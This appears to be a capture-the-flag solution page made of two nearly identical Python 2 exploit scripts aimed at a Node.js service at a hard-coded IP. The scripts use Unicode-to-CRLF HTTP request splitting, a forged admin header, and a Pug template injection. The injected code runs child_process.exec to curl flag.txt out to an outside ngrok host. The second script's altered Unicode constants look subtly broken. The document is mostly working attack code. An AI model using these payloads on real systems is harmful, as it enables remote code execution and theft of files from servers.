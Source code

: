 Exploit Solve 1 :

# coding=UTF-8
import requests
from requests.utils import quote
def toOct(str):
	r=""
	for i in str:
		if i>='a'and i<='z':
			r+='\\'+oct(ord(i))[1:]
		else:
			r+=i
	return r

#This next line could test in nodejs interpreter so that we can observe the similar behavior about how http treat on unicode(\u{xxxx} is js encode pattern)
#Buffer.from('http://example.com/\u{010D}\u{010A}/test', 'latin1').toString() 
#Unicode čĊ will convert to latin1 which will only pick up the right most byte
SPACE=u'\u0120'.encode('utf-8')
CRLF=u'\u010d\u010a'.encode('utf-8')  # transfer from unicode to utf-8 (\uxxxx is unicode's pattern)
SLASH=u'\u012f'.encode('utf-8')

pug = toOct('''-[]["constructor"]["constructor"]("console.log(this.process.mainModule.require('child_process').exec('curl 0.tcp.ngrok.io:10269 -X POST -d @flag.txt'))")()''').replace('"','%22').replace("'","%27")#' and " need to be double encoded
print quote(pug)

payload='sol'+SPACE+'HTTP'+SLASH+'1.1'+CRLF*2+'GET'+SPACE+SLASH+'flag'+SPACE+'HTTP'+SLASH+'1.1'+CRLF+'x-forwarded-for:'+SPACE+'127.0.0.1'+CRLF+'adminauth:'+SPACE+'secretpassword'+CRLF+'pug:'+SPACE+pug+CRLF+'test:'+SPACE
# http://139.59.26.107:11115/
res=requests.get('http://139.59.26.107:11115/core?q='+quote(payload))
#res=requests.get('http://139.59.26.107:11115/core?q='+requote_uri(payload))
print res.content



====================================

Exploit Solve 2 .

import requests
from requests.utils import quote
def toOct(str):
        r=""
        for i in str:
                if i>='a'and i<='z':
                        r+='\\'+oct(ord(i))[1:]
                else:
                        r+=i
        return r
SPACE=u'\u0220'.encode('utf-8')
CRLF=u'\u020d\u010a'.encode('utf-8') 
SLASH=u'\u022f'.encode('utf-8')
pug = toOct('''-[]["constructor"]["constructor"]("console.log(this.process.mainModule.require('child_process').exec('curl 0.tcp.ngrok.io:10269 -X POST -d @flag.txt'))")()''').replace('"','%22').replace("'","%27")#' and " need to be double encoded to make it a valid request
print quote(pug)
payload='sol'+SPACE+'HTTP'+SLASH+'1.1'+CRLF*2+'GET'+SPACE+SLASH+'flag'+SPACE+'HTTP'+SLASH+'1.1'+CRLF+'adminauth:'+SPACE+'secretpassword'+CRLF+'pug:'+SPACE+pug+CRLF+'test:'+SPACE
print payload
print quote(payload)
res=requests.get('http://139.59.26.107:11115/core?q='+quote(payload))
print res.content
#http://139.59.26.107:11115/



Use TCP Ngrok Or AW Server ...
